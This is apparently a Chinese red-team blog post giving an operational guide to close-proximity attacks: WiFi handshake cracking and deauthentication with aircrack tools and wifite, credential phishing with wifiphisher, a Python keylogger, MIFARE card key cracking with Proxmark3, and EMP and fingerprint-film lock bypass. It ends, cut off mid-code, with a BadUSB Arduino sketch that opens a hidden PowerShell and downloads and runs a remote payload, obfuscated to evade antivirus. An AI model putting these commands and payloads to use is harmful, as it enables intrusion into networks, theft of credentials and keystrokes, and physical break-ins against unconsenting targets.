



## 近源攻击方式总结

- - -

# [前言](#toc_)

前段时间身边的大佬去搞攻防，近源攻击挺有成效的，拿了上千的分数，之前自己也有搞过但是一直没用到攻防上面，整理下相关的方式，后续可以参考参考，近源攻击，顾名思义😏你走近点打他，攻击队通过靠近或者位于攻击目标内部，利用各类智能设备、通信技术、物理接口等方法进行突破，也就是说，攻防期间，除了待在小黑屋里面坐牢，还可以接近目标现场，通过现场的环境进行渗透突破，达到进入内网，获取数据的目的，比起在网上打点，近源攻击能够又快又准的进入目标内网，且方法多种多样，成功率很高，但是有点随缘，运气不好的话，可能你丢的 Badusb 被保洁阿姨丢掉了或者被保安抓了也不一定，关键还是运气和苟住🤔

# [近源攻击方式&&工具](#toc__1)

Badusb：利用 HID，也就是计算机直接与人交互的设备，例如键盘、鼠标等进行攻击，将 USB 设备伪装使电脑识别为键盘，再利用 USB 设备中的微控制芯片，向主机发送命令，从而实现完全控制主机。

WIFI 破解：通过使用外接无线网卡配合 kali 破解无线密码，现在一般是通过抓握手包然后通过跑包来破解，通过破解 WiFi 密码来连接目标网络，直接进入内网环境。

WIFI 钓鱼：通过创建或者伪造 wifi 等待目标现场的工作人员进行连接，等工作人员连接上去之后通过分析数据包获取工作人员的上网信息或者内部 wifi 密码

电磁脉冲干扰（EMP 干扰）：开锁利器，目前很多部门对于重要地点大多都是使用智能电子锁，不过当前电子设备和电路的工作频率不断提高，而工作电压却逐渐降低，因此对电磁脉冲（EMP）的敏感性和易损性也不断增加。同时，电子系统中的集成电路对电磁脉冲比较敏感，往往一个较大的电磁脉冲，就会使集成块产生误码、甚至电子元器件失效或烧毁，可以通过使用 EMP 干扰来打开部分电子门禁和电子密码锁。

变色龙（Chameleon Mini）：Chameleon Mini 可以完全复制许多商业非接触式智能卡包括 UID 卡在内的全部内容，因此可以用来测试 RFID 和 NFC 设备在各种攻击环境下的安全性。

Proxmark 3：如果使用 EMP 无法打开门禁，还可以通过接近一下目标，找合适的机会破解 IC 卡或复制 ID 卡。对于 ID 卡，仅需不到一秒即可复制，而如果是存在 MFOC 漏洞的 IC 卡，需要十几秒钟时间复制，可谓攻敌利器。

纳米指纹膜：通过指纹拓印出一个跟原指纹一模一样的指纹膜，用于打开指纹锁或者手机锁屏等，看过谍战警匪片的大铁子们都知道的，拿了谁谁谁的指纹，然后现场畅通无阻😏不过搞不好就进去了，到时候还得要网安的人来捞人。

键盘记录器：能够针对外接的 USB 键盘，通过将键盘记录器放置到电脑和 USB 的之间，能够获取到用户在键盘上敲的数据。

光明正大 (潜入) 现场插网线：很好理解哈，就是偷跑到客户现场，把网线插到自己的电脑上，这样就能获取到内网的网络配置等信息，直接开始内网渗透，或者能够找到忘记锁或者没有账号密码，容易破解的主机也是一种办法，之前有师傅参加的攻防里头就用了这个，对于一些部门来说，管控没那么严格，你能进他的办公园区或者大楼，他们在里面逛了几圈，拿了几千分，缺点也很明显，容易被抓。

# [相关方式实现过程](#toc__2)

## [WIFI 破解](#toc_wifi)

### [类型](#toc__3)

```plain
wifi 破解有三种方式分别是：万能钥匙，字典破解，pin 码爆破
```

### [原理](#toc__4)

万能钥匙：类似于密码共享，当这个 wifi 环境下，有人刚好也使用了这个 APP，并且把密码共享出去，那么当有人再次访问这个 wifi 的时候，APP 会将密码发生给手机，如果服务器上不存在这个 wifi 的密码的时候，会尝试进行弱口令爆破，针对于一些公共场所，这个方法还有成功的可能，而对于一些政府部门，这个方法成功率为零。

字典破解：算是比较高级的方法，通过监听 wifi 的数据包，然后当有人连接 wifi 的时候，记录握手过程，然后通过字典进行对比，匹配出密码，当这个 wifi 已经有人连接的时候，没有办法抓到握手包，而现在的 WiFi 设备为了提供更好的用户体验都会再 WiFi 断线后尝试自动连接。在自动连接的过程中，手机等 设备会重新向路由器发送加密过后的 WiFi 密码，当路由器接收到这些信息后会将这些信息同自己内部存储的 WiFi 密码经过相同加密方式后的数据进行对比，比对成功就算认证通过，那么可以尝试将已经连接的用户踢下线，让他重新连接，当被踢下线的用户重新连接就能进行监听抓包了。

pin 码破解：pin 其实依赖于路由的 wps。就是只要你按一下 WPS 按钮就能连接上 WiFi 的功能，省去了输密码的麻烦。这本来是个方便用户使用的功能，但是它其实是通过了 pin 码的方式进行了认证。Pin 码认证通过后，路由就会将密码以明文方式发送给你的网络设备，你的网络设备将自动记录和保存 WiFi 密码并连接上路由器。Pin 码一共 8 位数，分前 4 和后 4，路由先验证 前四位数是否正确，正确的话才会验证后四位，其实后 4 位的 3 位确定后，最后一位也就确定了，所以一共也就 11000 种可能。当然也不是说 pin 码就一定能百分比破解，如果关闭了 wps 功能或者路由器有防 pin 的功能，就很难进行破解，而且这种只针对老型号的路由器，新的路由器基本上都对 pin 爆破有防范了，而且有的都是默认关闭 wps 的。

### [字典破解](#toc__5)

#### [前期准备](#toc__6)

```plain
支持监听的网卡（最好是 8187 或者 3070 的）
kali
```

#### [airodump-ng 实现过程](#toc_airodump-ng)

网卡插入物理机，然后连接到虚拟机上

[](https://storage.tttang.com/media/attachment/2023/04/23/b0a51d4e-09d4-4522-a82f-c4ef890ad4fc.png)

[](https://storage.tttang.com/media/attachment/2023/04/23/0465f2b5-d5ac-47f8-9c3a-220698bd19ce.png)  
查看网卡是否接入成功，记住自己的网卡名，方便寻找

```plain
#提升权限
sudo su
#查看网卡
airmon-ng
```

[](https://storage.tttang.com/media/attachment/2023/04/23/62e09d4a-d2c4-4c88-978e-717d3c3f4c1a.png)

如果没发现的话，看下 VMware 上的虚拟机里面的可移动设备是不是连接了网卡，如果不是连接一下，还不行的话看下自己买的网卡是不是支持 kali 或者是不是免驱的，这里注意一点就是，有些网卡虽然支持监听，但是不是免驱的，就有点麻烦，有些良心的会把驱动带上，直接安装就行了，有些是需要你自己去找驱动的，避免踩坑，网上帖子说的那种十几二十块的网卡，我是没买到过，我这个是 50 多（不知道有没有被坑），但是发射范围不大，只能作为实验或者说你去到人家楼下能够监听到网络的范围，不然的话可以买军工级别的，某鱼上面偶尔会有军工级别的放出来，用来钓鱼的话完全没问题，发射范围好几条街

[](https://storage.tttang.com/media/attachment/2023/04/23/6514b855-dfa6-46fb-8d7d-13b21f9a1c6c.png)

如果一切正常，检测到了网卡的存在，接着开启下网卡的监控，不开启的话是没办法进行监听的，有一些工具开启之后会帮你打开这个东西

```plain
#开启网卡监控
airmon-ng start wlan0（这个位置是根据的你 interface 名称来的）
```

[](https://storage.tttang.com/media/attachment/2023/04/23/10e74f05-fa01-498f-ae03-41bf4a81e856.png)

此时网卡名称变化，可以使用命令看看网卡的名字是否改变

```plain
ifconfig
```

[](https://storage.tttang.com/media/attachment/2023/04/23/9483b266-1b42-4e87-8c6b-7f0b7fbd34e7.png)

此时已经开启了网卡的监控，可以开始扫描现场存在的 wifi 了

```plain
airodump-ng wlan0mon（你网卡改变后的名字）
```

[](https://storage.tttang.com/media/attachment/2023/04/23/f6066efc-4e3a-4313-a95c-bb0b9ead0e23.png)

这里停止监听，选择名为 AX 的 wifi 进行破解

[](https://storage.tttang.com/media/attachment/2023/04/23/6e6feb29-c901-40a0-893d-62abf0bb2663.png)

输入以下命令

```plain
airodump-ng -w freedom -c 1 --bssid 48:2C:A0:F2:BF:D0 wlan0mon -ignore-nefative-oneaa
```

其中命令参数为

\-c：指定信道  
\-w：指定抓去握手包的存放位置或者名字，freedom 是一会抓去的握手包的名字  
–bssid：指定路由器的 MAC

需要更改两个参数，信道和地址，这两个参数分别是扫描 wifi 时确定要破解的 wifi 参数

[](https://storage.tttang.com/media/attachment/2023/04/23/7612b111-45a6-407a-8138-8d8fa8fef712.png)

执行之后会到以下界面

[](https://storage.tttang.com/media/attachment/2023/04/23/cda491a7-4546-4b82-829e-269f410aa6c8.png)

如果没连接的设备，就没办法接着往下的步骤了，所以这块还是比较看缘分的，从数据中看出有一台设备在连接，然后接着把这个用户踢下线，然后监听他重新连接的握手包，运行以下命令

```plain
aireplay-ng -0 2 -a 48:2C:A0:F2:BF:D0 -c 0A:FD:D4:19:1A:04 wlan0mon
aireplay-ng -0 2 -a（wifi 的 mac） -c（连接设备的 mac）wlan0mon
```

image-20220626224907122

执行成功后如上图，表明该客户机以及被成功的踢下线，我们要做的就是等待客户机重新连接，他只要重新连接了，我们就能抓到握手包，进行跑字典破解，这里我们模拟下重新连接这个 wifi

[](https://storage.tttang.com/media/attachment/2023/04/23/76728cc0-f6c7-4bca-b73e-f234075b6b61.png)

如果出现上面的数据，则证明我们监听到了握手包，可以接着进行爆破了，ctrl+c 退出抓包，数据包保存在主目录下，名字为 freedom-01.ivs 的文件

[](https://storage.tttang.com/media/attachment/2023/04/23/5a9820b3-c638-487c-9690-61d82e7d7d93.png)

01 是我之前测试的数据包，02 是现在的，我们使用 02 的进行爆破，字典一定要够强大！！！执行以下命令

```plain
aircrack-ng -w pass.txt freedom-02.ivs
```

[](https://storage.tttang.com/media/attachment/2023/04/23/9f8d43c9-5300-4430-a415-7c743fe24ad5.png)

爆破成功的话就跟上面一样，其实就跟网页爆破弱口令一样，看你自己的字典强度，到了这，我们就算进入对方网络环境了，可以开始扫描同网络环境下存在的主机了，如果不成功的话就是下面这种，平时多攒攒口令，关键时候口令能帮上大忙。

[](https://storage.tttang.com/media/attachment/2023/04/23/4a27648d-5aaa-49b3-adad-c25d1f22f572.png)

#### [wifite 实现过程](#toc_wifite)

这个跟上面的 airmon-ng 是差不多的原理，都是监听 - 抓包 - 跑包对比字典的样子，这个会比较一体化，你只需要开启 wifite 然后选择自己想要监听爆破的 wifi，他自己就会进行监听并且不断将已经连接的用户逼下线，通过让用户重新连接去抓取连接时的数据包，然后不断对比字典中的密码，你只需要保证你的字典足够强大就行了，算是很方便的了。

开启 wifite，直接 kali 输入 wifite 就能启动然后开始监听（如果你插了网卡的话）

[](https://storage.tttang.com/media/attachment/2023/04/23/b9bb09b4-eebd-482f-948b-34cdc9786525.png)

看上面报错了，提示缺了三个东西

```plain
[!] Warning: Recommended app pyrit was not found. install @ https://github.com/JPaulMora/Pyrit/wiki
 [!] Warning: Recommended app hcxdumptool was not found. install @ apt install hcxdumptool
 [!] Warning: Recommended app hcxpcapngtool was not found. install @ apt install hcxtools
```

这里需要把缺少的东西下载完

```plain
sudo apt install hcxdumptool 
apt install hcxtools
sudo apt-get install libpcap-dev sudo apt-get install python2.7-dev libssl-dev zlib1g-dev libpcap-dev 
git clone https://github.com/JPaulMora/Pyrit.git
cd Pyrit
sudo python setup.py clean 
sudo python setup.py build 
sudo python setup.py install 
```

然后 就没提示缺少了，可以直接监听

[](https://storage.tttang.com/media/attachment/2023/04/23/79f303c5-85a4-48af-8671-defa046c94f1.png)

出现你想要的 WiFi 之后，按 ctrl+c 停止监听，然后输入前面的序号，就可以开始爆破了

[](https://storage.tttang.com/media/attachment/2023/04/23/de35f8f2-d0ae-472d-b990-c31150913372.png)

这里我们选择 AX 的 wifi，然后开始捕获 PMKID，是几年前比较新的一种用来破解无线密码的 WPA/WPA2 协议密码的方法，在之前的那些方法中，攻击者需要捕获用户连接路由器时的完整握手包。而新的方法可以在没有客户端的情况下，向 AP 发送请求来获取 PMKID 以用于破解，而且在研究员的文章中表示该攻击适用于所有支持并开启漫游功能（Roaming）的无线网络，具体不清楚到底会对多少路由器有效。

[](https://storage.tttang.com/media/attachment/2023/04/23/3bfe8c7f-1b24-426a-9d6e-584fada76f4a.png)

然后有大表哥研究过在实际情况下对周围环境的攻击能有多大的收获，最后在经过家庭环境和办公环境的对比之后得到这样的结论

```plain
1.该攻击方式并没有明显降低攻击 WPA/WPA2 网络的难度，依然需要字典式进行暴力破解，只是允许在无客户端情况下进行。
2.该攻击只对 WPA-PSK/WPA2-PSK 有效，对企业级 802.1X 认证热点（WPA-Enterprise）无效。
3.大部分低端家用级路由器由于不支持漫游特性，对该攻击免疫；少部分中高端路由器（往往支持 802.11AC）可能受影响，用不上就关掉吧（如果可以的话）。
4.对于用户：依然是提高无线密码复杂度，警惕热点密码分享 APP。
5.对于路由器厂商：对 WPA-PSK 考虑是否有支持漫游特性的必要，或者增加开关。
```

如果没捕获到 PMKID，就会提示 PMKID CAPTURE: Failed to capture PMKID，然后进行数据包的监听，当有用户连接进来的时候就会产生握手包，然后去跑字典。

[](https://storage.tttang.com/media/attachment/2023/04/23/e8173418-1983-4bc0-91a4-d1c45eb2e6e9.png)

现在就等它破解成功就行了，不过这个有点玄学，我试了好几次，用了几台设备才破解成功一次（密码是 12345678）不可能搞不到，虽然说一条龙服务，但是不成功的几率还是太大了，所以第一种的方式会好点，如果没时间盯着的可以选择这一招。

## [WIFI 钓鱼](#toc_wifi_1)

### [wifiphisher](#toc_wifiphisher)

#### [原理](#toc__7)

wifiphisher 会针对在攻击中选择的 wifi 进行强制连接，然后使连接目标 wifi 的客户机都下线，再通过自身的网卡发射一个伪装好的 wifi，并显示钓鱼页面，然后获取到被攻击 wifi 的密码，相比起自己发射个 wifi，然后诱导现场工作人员来连接这个 wifi 获取上网信息的钓鱼不同，他的成功率会更高点，而且在近源攻击中，接近的都是安全意识较强的人群，凭空出现一个热点，很少会有人去连接，而且我们的目的是进入对方内网，我自己发射个热点虽然能够监测到上网信息，但是能不能进内网还得看人品，所以，wifiphisher 相对来说好一点。

#### [实现过程](#toc__8)

安装 wifiphisher，执行以下命令（网卡接入部分就不用说了，上面有）

```plain
apt-get install wifiphisher
cd Wifiphisher # 切换到 tools 目录
sudo python setup.py install # 安装依赖
```

[](https://storage.tttang.com/media/attachment/2023/04/23/df19961c-abad-4e30-920e-c1919984fdd7.png)

安装完成之后，把 wifiphisher 打开就可以开始选择热点进行钓鱼，执行以下命令

```plain
wifiphisher
```

[](https://storage.tttang.com/media/attachment/2023/04/23/2908a394-a371-473c-abfd-f1fbea9e22e3.png)

接着就会进入监听状态，查看附近有什么信号源，跟其他的工具差不多，都会把信道，连接数量显示出来，这里尽量选择已经有连接的 wifi，不然没人连接的得等到啥时候

[](https://storage.tttang.com/media/attachment/2023/04/23/6d51dc9e-d9df-4812-ae4d-12da9fd16cf2.png)

然后使用鼠标滚轮或者小键盘的方向键，上上下下寻找你要攻击的 wifi，这里我们继续选择 AX 这个 wifi，回车确定就会出现 you have selected AX

[](https://storage.tttang.com/media/attachment/2023/04/23/4c249ce4-6daf-4234-b368-17d9dff3f245.png)

接下来是选择攻击模式，网络管理器连接，就是模拟 wifi 连接失败，然后需要重新连接认证这样获得密码

请求预共享密钥。

[](https://storage.tttang.com/media/attachment/2023/04/23/72b1df0a-8bcd-4752-ab72-7c81779cc8da.png)

然后就会跳转到这个页面下，显示已经连接的用户，已经进入钓鱼页面的用户还有监听到的密码数据

[](https://storage.tttang.com/media/attachment/2023/04/23/89b476cc-7499-450a-86e0-3566ed29a29e.png)

看下用户端的情况，当我们开始钓鱼的时候，wifiphisher 会发射一个跟被攻击 wifi 的名称一样的 wifi，然后用户就会莫名其妙的下线了，需要重新连接，然后会跳出一个认证页面

[](https://storage.tttang.com/media/attachment/2023/04/23/f5407535-eb70-44d3-9112-326db5d781e0.png)  
接着当用户输入密码进行验证之后，我们就得到了原来 wifi 的密码了，又一次顺利进入内网😏如果他不信这个，点击了取消的话，页面就会提示这个无线局域网尚未接入互联网，可以说是很逼真了，对付一般的工作人员还是有用的，而且对于政府部门，医院这种，你自己发射个 wifi 信号出去，能够钓到人，但没准是来办业务的人呢？你监听不到什么有用的数据，所以这种方式会更加有优势一点。

[](https://storage.tttang.com/media/attachment/2023/04/23/65842701-6452-4d4f-8455-b2cd884cbe46.png)

## [键盘记录器](#toc__9)

键盘记录器从字面上来解释，就是记录监控输入的仪器，可监控到键盘的每一次敲击，有基于硬件和软件两种类型。很多时候会被用于不正当的用途，用来盗取别人的密码信息。可能是通过 U 口插入的 U 盘，或者是网络上通过邮件，网页链接，聊天软件来进行传播的。

### [软件](#toc__10)

屏幕键盘记录精灵，该电脑键盘记录软件当启动监控后，键盘将详细的记录电脑上的一举一动。适用于所有应用程序，如 QQ,MSN,Skype,word,excel，记事本，写字板，IE 页面等任何键盘输入程序并发送到指定的邮箱内，软件功能包括：键盘的所有输入输出，定时截取屏幕图片保存到指定文件夹内，定时将记录下来的图片和文本发送到指定邮箱，电脑重启后软件能够自动隐藏运行

网上百度一大堆，大部分是没免杀的，而且都要注册码，要我掏钱还不如噶我腰子，这里运气好找到个可以试用的

[](https://storage.tttang.com/media/attachment/2023/04/23/67ada6ed-8bb4-4bda-bc63-7628c7ae25e9.png)

开启监控之后随便敲几下键盘，然后查看记录，可以看到我们刚刚敲的东西

[](https://storage.tttang.com/media/attachment/2023/04/23/7da3048a-1b41-4465-bb22-442eff3060a8.png)

其实还能定时截图的，每隔五秒就会截图一次

[](https://storage.tttang.com/media/attachment/2023/04/23/e1e9add1-9560-458b-b094-e6d4adf09895.png)

功能挺完善的，还能定时把数据发送到指定邮箱，并且删除掉数据，把数据删除就不会因为截图太多把占用太多内存，引起怀疑，缺点就是没有免杀，如果免杀了的话，也算是个利器来的，有条件的大佬也可以自己用 py 写个脚本，类似于这种  
\`

```plain
#coding=utf-8
from pynput import keyboard, mouse
from loguru import logger
from threading import Thread

logger.add('monitor.log')


def on_press(key):
    logger.debug(f'键盘输出：{key} ')

def on_release(key):
    if key == keyboard.Key.esc:
        return False

def f1():
    with keyboard.Listener(on_press=on_press, on_release=on_release) as lsn:
        lsn.join()


def on_click(x, y, button, pressed):
    if button == mouse.Button.left:
        logger.debug('鼠标左键点击')
    elif button == mouse.Button.right:
        logger.debug('鼠标右键点击')
        return False
    else:
        logger.debug('mid 被点击')


def f2():
    with mouse.Listener(on_click=on_click) as listener:
        listener.join()


if __name__ == '__main__':
    t1 = Thread(target=f1)
    t2 = Thread(target=f2)
    t1.start()
    t2.start()
```

[](https://storage.tttang.com/media/attachment/2023/04/23/9c9a383a-264a-4337-96a8-70817cb3981e.png)

后续再进行扩展，通过发送到邮箱等方式获取信息，灰鸽子，CS 都有类似的功能，但大概率会被发现，没有硬件设备隐蔽。

### [硬件](#toc__11)

和软件的键盘记录器一样，它会记录下用户在键盘上的所有输入，比如账号密码、网址、手机号等等，硬件版本的独特之处在于：即使现在各种防御措施，已经能防御大多数软件键盘记录器，但是基于硬件的键盘记录器，对于操作系统来说是无感知的，毕竟它就是一个标准的输入设备。识别和防御也就变得十分困难了。

如何得到这样一个利器，国内外的平台上都有买现成的成品，不过价格略贵，某强北的价格是 210 块钱左右，这个算是比较亲民的了，而国外一些专门卖这种设备的平台，一个就要一两百美刀或者欧元，巨贵，还不如噶我腰子，当然也有很多开源项目，如果懂硬件的大表哥可以自己买开发板制作，成本直接下降一大半，开源设计有 spacehuhn 的 wifi\_keylogger：[https://github.com/spacehuhn/wifi\_keylogger](https://github.com/spacehuhn/wifi_keylogger)，以 wifi\_keylogger 为例，它是一个基于 Arduino 的键盘记录器。带有 Wi-Fi 功能，可以存储记录到的键盘输入，并可以通过其发出的 Wi-Fi 网络查看记录数据。

[](https://storage.tttang.com/media/attachment/2023/04/23/651de371-300c-48da-855b-446727ef7784.png)

看起来好像挺大的，好像装到电脑后面马上就会被发现，原因是因为 USB 键盘使用了 HID 协议，对于 Arduino 来说，速度太快没办法读取，所以除了使用 Arduino，还需要使用其它的设备用于读取 HID 协议，也就是 USB Host Shield，原作者通过用转换器将 USB 转换成 PS2 的键盘，然后通过分析 PS2 的协议读取 HID 的协议，虽然解决了速度问题，但是缺点就是太大了，而且会造成不兼容的问题，例如键盘上有一些按键用不了之类的，那如果要解决这类问题的话，其实可以更换芯片，然后重新设计 PCB，但是这种太过复杂（对会的人来说可能挺简单的），但是对于我们这种只是想要短时间内马上就能用到，并且有成效的话，总不能还要我去学吧？所以这里的话，建议大家买现成的，资源自寻百度（狗头保命）

## [Proxmark 3](#toc_proxmark-3)

### [原理](#toc__12)

Proxmark3 是一款国外安全团队研发的开源设备，内置高频和低频天线，能够识别和读取大部分的 RFID 卡片，而且国内的 PM3 还可以通过转接头等工具和手机电脑连接，达到跨平台的效果，日常用的卡片有两种，一种是 ID 卡，一种是 IC 卡，ID 卡内的卡号读取很容易，不需要权限，所以很容易仿制，而 IC 卡内的数据读取需要权限认证，有些 IC 卡的每个扇区都有不同的认证密码，所以破解难度会相对较高，但是由于 IC 卡中存在伪随机数发生器，造成了一定的安全问题，而 Proxmark3 和其他的读卡设备可以自由控制线圈通电时间，从而绕过部分安全验证，破解出 IC 卡的密码。

例如这种 16 扇区，64 扇块的 M1 卡，内部的数据存储形式是这样的

[](https://storage.tttang.com/media/attachment/2023/04/23/f532415a-0e29-404d-8f6a-5d9eaa0b8f2c.png)

[](https://storage.tttang.com/media/attachment/2023/04/23/260d4e2b-10aa-4137-9251-699dfd36c233.png)

常用的 M1 卡主要有 NXP 生产的 S50 和 S70，都是属于 MifareClassic 家族。以 S50 为例，国内兼容的最好的厂家是上海复旦微电子生产的 FM11RF08 芯片，二者的区别在控制位上，控制位主要是读卡器在验证卡的时候所用到的，不同的控制位表示不同的验证方式，NXP 的 S50 前 15 个扇区的密码块的控制位是：“FF078069”，最后 1 个扇区的密码快的控制位是：“FF0780BC”。

而复旦 FM11RF08 芯片的所有扇区的所有控制位均为：“FF078069”。接着就是看芯片第 0 扇区第 0 块的代码，从第 10 位开始看，如果后面是“08040062636”就是复旦的芯片，而如果是“08040023569”就是贝岭芯片。

MifareClassic 1k 共有 16 个扇区，分别为 0-15 个扇区；每个扇区有 4 块，分别为 0-3 块，每个块有 32 个字符；0 扇区的 0 块为只读块，只存储厂商代码和 UD 号。

其他每个扇区的前 3 块为数据库，最后一块为密码块。密码块的前 12 个字符为 A 区密码，中间 8 个字符为控制位，后面 12 个字符为 B 区密码。

### [默认口令爆破](#toc__13)

IC 卡在制造时制造厂商为了方便会将除 0 扇区之外的扇区的所有密码默认设置为 FFFFFFFFFFFF，这就是 IC 卡片的默认密码，所以可以使用 PM3 对卡片的默认密码进行爆破。早期的 PM3 要把高频天线连接到 Proxmark3 的天线接口，并且连接完成之后要查看一下天线与 PM3 连接之后的工作电压是否正常；国产的 PM3 工具在设计时就将高频天线和低频天线安装到一起，在使用时只需要实用工具对其电压等进行探测是否正常。

这里简要说下过程，如果想要看图的话，可以自行百度，网上也有教程

```plain
#工具准备
Proxmark3
IC 卡片
Proxmark3 Easy GUI
#实施过程
1、先用数据线将 Proxmark3 和电脑连接，然后找到相对应的串口，连接成功后检测下工作电压
2、把准备好的 IC 卡放到高频卡读卡器位置，查看天线电压的变化，如果高频天线的电压下降了，说明我们买到的是高频 IC 卡，先读取卡片类型
3、先检测是否存在出厂时遗留的 key，默认 key 有
nffffffffffff
nbob1b2b3b4b5
n000000000000
na0ala2a3a4a5
naabbccddeeff
n714c5c886e97
na0478cc39091
4、通过默认密码扫描，看能不能读取到某个扇区的密码
5、利用嵌套认证漏洞使用任何一个扇区的已知密匙，获取所有扇区的密匙，此漏洞成功率较高，这个漏洞也被称作知一密求全密，如果从上一步中已经知道其中的几个扇区的默认密码，使用 PM3 的知一密求全密的功能对扇区进行破解
6、如果上面的方式不行，那就使用 PRNG 漏洞进行破解，Proxmark3 基于 PRNG 的安全缺陷是进行随机数碰撞，利用 PRNG 的安全缺陷我们可以很快速地得到对应的密钥，从而进行进一步的破解操作。
#MIFARE Classic 采用的是 Crypto-1 私有加密算法，其算法的特点就是对称式的密码算法或者说是私钥密码系统。其主要组成部分是伪随机数发生器（PRNG）、48 位的线性反馈移位寄存器（LFSR）以及非线性函数。由于算法当中的 Filter Function 的设计出现缺陷，导致改变线性反馈移位寄存器的后 8 位数值就有可能得到所对应的 Keystream。这个缺陷类似于 802.11bWEP 算法，不同的明文有极高的可能性被相同的 Keystream，使得整个加密算法出现了漏洞。
7、如果上面两种方式都不行，也可以尝试 RFID 嗅探，RFID 嗅探也是一种非常常见的 RFID 攻击方式，对于一些卡片无法使用默认密码或者 PRNG 漏洞攻破其密码，但是仍然可以使用嗅探的方式对其进行攻击，从而嗅探出密码。
8、破解完就是复制卡片了，没啥难度
```

## [Badusb](#toc_badusb)

### [原理](#toc__14)

Badusb，也就是利用 HID 接口的类似于 U 盘的东西，HID（人体学接口设备）是一个设备类定义，用于将 PS/2 样式的连接器替换为支持 HID 设备（例如键盘、鼠标、游戏控制器等）的通用 USB 驱动程序，在 HID 之前，设备只能对鼠标和键盘使用严格定义的协议。硬件创新要求使用现有协议重载数据，或使用其自己的专用驱动程序创建非标准硬件，HID 为这些“启动模式”设备提供了支持，同时通过可扩展、标准化且易于编程的接口添加对硬件创新的支持。简单来说 HID 设备就是键盘这种输入设备 而 HID 攻击呢，其实就是指利用模拟键盘的输入进行的攻击，其内部结构是这样的

[](https://storage.tttang.com/media/attachment/2023/04/23/942cb02d-5333-4938-85ac-973f4c867ef4.png)

从这张图便可以了解到 Badusb 和普通的 U 盘并没有什么两样，因此迷惑性极高，很容易攻击成功，在 2014 年美国黑帽大会上，安全研究人员 JakobLell 和独立安全研究人员 Karsten Nohl 展示了他们称为“BadUSB”的攻击方法，这种攻击方法让 USB 安全和几乎所有和 USB 相关的设备 (包括具有 USB 端口的电脑) 都陷入相当危险的状态。

Badusb 插入后，会模拟键盘对电脑进行操作，通过这些操作打开电脑的命令终端，并执行一条命令，这条命令将从指定网址下载恶意代码 (通常为 powershell 脚本) 并于后台静默运行。这些代码功能包括：窃取信息、反弹 shell、发送邮件等，从而实现控制目标机或者窃取信息的目的。

关于硬件，各大平台都有在卖现成的，例如万能的某宝，某鱼，或者 Hak5，Hak5 上面的价格十分《亲民》谨慎购买，橡皮鸭算是上面比较亲民的了 50 刀的样子，毕竟实际攻防的时候，丢地上最后去哪了都不知道，血亏几百刀。

[](https://storage.tttang.com/media/attachment/2023/04/23/f1896cd0-618b-4bf4-945a-29e78f8b536f.png)

### [自制 Badusb](#toc_badusb_1)

别人能做那当然也可以自己制作，熟悉 Arduino 的大佬，完全可以自己买块开发板回来自己烧录，而且网上有现成的教程和代码，直接 CCV 就行了。

#### [开发板烧录过程](#toc__15)

1、买个经典版的橡皮鸭 rubber ducky（其他开发板也可以）  
2、在 CS 上面生成个 ps1 文件格式 Powershell 可执行的程序  
3、对 CS 生成的 Ps 文件进行免杀（这里可以用 Invoke-Obfuscation 进行免杀，[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)）  
4、安装 Digispark（Attiny85）开发板驱动。

[](https://storage.tttang.com/media/attachment/2023/04/23/7460e0fe-d91b-407f-8db9-5425754dce28.png)

5、打开 Arduino 软件，点击文件中的首选项，附加开发板管理器网址填入：[https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package\_digistump\_index.json](https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json)

6、点击工具中的开发板中的开发板管理器，等待下载索引完成（下载不成功请使用海外代理），搜索并安装“Digistump AVR Boards by Digistump”，安装完成后在开发板中选择 Digispark（Default-16.5mhz）

[](https://storage.tttang.com/media/attachment/2023/04/23/23879ece-cbf0-4ed2-add8-61f83d7c4919.png)

7、将以下代码填入 Arduino 代码框中，以实现伪造键盘输出 win+r 打开运行窗口并执行 Powershell 命令：

```plain
void setup(){//初始化 
Keyboard.begin();//开始键盘通讯 
delay(5000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win 键 
delay(500);
Keyboard.press('r');//r 键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("CMD");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
Keyboard.println("powershell -windowstyle hidden IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/main.ps1') ");
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯 
Keyboard.begin();//开始键盘通讯 
delay(5000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win 键 
delay(500);
Keyboard.press('r');//r 键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
